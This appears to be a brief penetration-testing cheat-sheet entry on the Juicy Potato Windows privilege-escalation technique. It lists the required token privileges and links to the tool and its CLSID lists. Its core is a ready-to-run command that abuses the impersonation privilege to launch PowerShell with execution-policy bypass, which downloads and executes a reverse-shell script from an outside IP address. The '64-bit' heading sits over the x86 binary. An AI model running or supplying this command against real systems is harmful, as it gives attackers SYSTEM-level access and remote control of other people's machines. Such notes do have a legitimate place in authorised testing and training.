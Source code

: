 ## Required Privileges

- `SeImpersonatePrivilege` OR
- `SeAssignPrimaryTokenPrivilege`

## Juicy Potato

Repo: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

List of CLSIDs:
- [https://github.com/ohpe/juicy-potato/tree/master/CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID)
- Mirror: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)

### Usage

#### 64-bit

```cmd
c:> JuicyPotatox86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://192.168.119.130:8080/minirev.ps1')" -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```